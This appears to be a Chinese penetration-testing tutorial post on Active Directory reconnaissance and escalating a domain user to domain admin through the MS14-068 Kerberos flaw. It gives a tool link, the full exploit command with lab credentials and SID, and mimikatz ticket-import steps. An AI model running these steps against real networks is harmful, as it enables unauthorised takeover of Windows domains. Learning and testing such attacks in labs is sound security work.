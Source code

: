 > 原文链接: https://www.anquanke.com//post/id/248023 


# 走进森林深处（四）


                                阅读量   
                                **27876**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t0100520f425c4036da.jpg)](https://p3.ssl.qhimg.com/t0100520f425c4036da.jpg)



## 前言

此系列的第四篇文章，预计这个系列的文章应该会在十篇左右。周末再次加更，希望能带给读者好的阅读体验。



## 信息收集

查找域控IP对我们接下来的渗透尤为重要，MS14-068或zero等洞之前，都需要提供域控的IP等。<br>`net group "domain controllers" /domain`

[![](https://p0.ssl.qhimg.com/t01e649314e33e37311.png)](https://p0.ssl.qhimg.com/t01e649314e33e37311.png)

此命令会获取域控主机的主机名，然后我们使用ping 命令获取域控主机IP

[![](https://p3.ssl.qhimg.com/t01386bb58af362afb5.png)](https://p3.ssl.qhimg.com/t01386bb58af362afb5.png)

可以看见使用ping命令获取到的是ipv6的地址，所以我们需要使用ping -4

[![](https://p3.ssl.qhimg.com/t017021c928d5a09d46.png)](https://p3.ssl.qhimg.com/t017021c928d5a09d46.png)

查看用户是否是域用户，当我们获取到 一台权限时，我们需要查看此权限是否为域用户。<br>`net user 用户名 /domain`

[![](https://p2.ssl.qhimg.com/t013f5891f05ff92d28.png)](https://p2.ssl.qhimg.com/t013f5891f05ff92d28.png)

[![](https://p3.ssl.qhimg.com/t0128c73ee303e6f8a5.png)](https://p3.ssl.qhimg.com/t0128c73ee303e6f8a5.png)



## MS14-068

前文讲述了一些关于内网的常规手段，接下来会逐个介绍内网中常见了提权漏洞。在各种条件下使用漏洞提升至域管。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%9D%A1%E4%BB%B6"></a>利用条件

MS14-068漏洞可将普通域用户权限提升为域管理员用户，利用条件：<br>
1.未打补丁<br>
2.有一个普通域用户<br>
3.知道域用户的密码

### <a class="reference-link" name="%E5%B7%A5%E5%85%B7%E4%B8%8B%E8%BD%BD%E5%9C%B0%E5%9D%80"></a>工具下载地址

[https://github.com/ianxtianxt/MS14-068](https://github.com/ianxtianxt/MS14-068)

### <a class="reference-link" name="%E5%A4%8D%E7%8E%B0"></a>复现

查看当前权限用户是否为域用户

[![](https://p3.ssl.qhimg.com/t01438f7d7c4eb09ff0.png)](https://p3.ssl.qhimg.com/t01438f7d7c4eb09ff0.png)

查看域控主机

[![](https://p1.ssl.qhimg.com/t018350dafaa21da5dd.png)](https://p1.ssl.qhimg.com/t018350dafaa21da5dd.png)

获取域控主机IP

[![](https://p3.ssl.qhimg.com/t016dcd9d0b786ee585.png)](https://p3.ssl.qhimg.com/t016dcd9d0b786ee585.png)

获取当前域用户SID

[![](https://p1.ssl.qhimg.com/t0143e36db6617fa5da.png)](https://p1.ssl.qhimg.com/t0143e36db6617fa5da.png)

上传MS14-068工具

[![](https://p0.ssl.qhimg.com/t0181a50a7c7f9048ef.png)](https://p0.ssl.qhimg.com/t0181a50a7c7f9048ef.png)

运行MS14-068工具

[![](https://p0.ssl.qhimg.com/t014dbde246f02237b9.png)](https://p0.ssl.qhimg.com/t014dbde246f02237b9.png)

`MS14-068.exe -u [liukaifeng01@god.org](mailto:liukaifeng01@god.org) -p hongrisec[@2020](https://github.com/2020) -s S-1-5-21-2952760202-1353902439-2381784089-1000 -d OWA.god.org`<br>
查看本地票据

[![](https://p2.ssl.qhimg.com/t01a4a5aad6e69b407b.png)](https://p2.ssl.qhimg.com/t01a4a5aad6e69b407b.png)

清除本地票据

[![](https://p0.ssl.qhimg.com/t01446dfc82d73a457b.png)](https://p0.ssl.qhimg.com/t01446dfc82d73a457b.png)

导入生成票据<br>
mimikatz kerberos::ptc [TGT_liukaifeng01@god.org.ccache](mailto:TGT_liukaifeng01@god.org.ccache)<br>
然后执行命令即可

[![](https://p3.ssl.qhimg.com/t0128fe1b46f833fa71.png)](https://p3.ssl.qhimg.com/t0128fe1b46f833fa71.png)



## 总结

MS14-068需要一个普通域用户的权限进行域管提权，此文之后将会讲述通过所有提权漏洞造成的横向。明白每一个漏洞的使用方法以及使用前提和使用后的结果可以使我们在域内横向时便于使用组合拳。可以通过表达式记录此漏洞，有一天你我会发现事物的本质是如此重要……

